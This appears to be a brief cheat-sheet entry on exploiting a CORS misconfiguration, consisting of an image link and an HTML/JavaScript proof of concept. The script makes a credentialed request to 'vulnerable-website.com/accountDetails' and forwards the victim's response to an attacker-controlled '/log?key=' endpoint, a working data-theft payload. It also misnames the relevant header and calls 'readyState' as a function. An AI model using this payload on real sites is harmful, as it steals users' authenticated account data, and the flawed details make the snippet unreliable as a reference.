

cors when Access-control-allow-authentication is provided:
```html
<html>
<body>
<script>
var xhr = new XMLHttpRequest();
var url = "https://vulnerable-website.com";
xhr.onreadystatechange = function() {
    if(xhr.readyState() == XMLHttpRequest.DONE) {
        fetch("/log?key=" + xhr.responseText)
    }
}
xhr.open('GET', url + "/accountDetails", true);
xhr.withCredentials = true;
xhr.send(null)
</script>
</body>
</html>
```

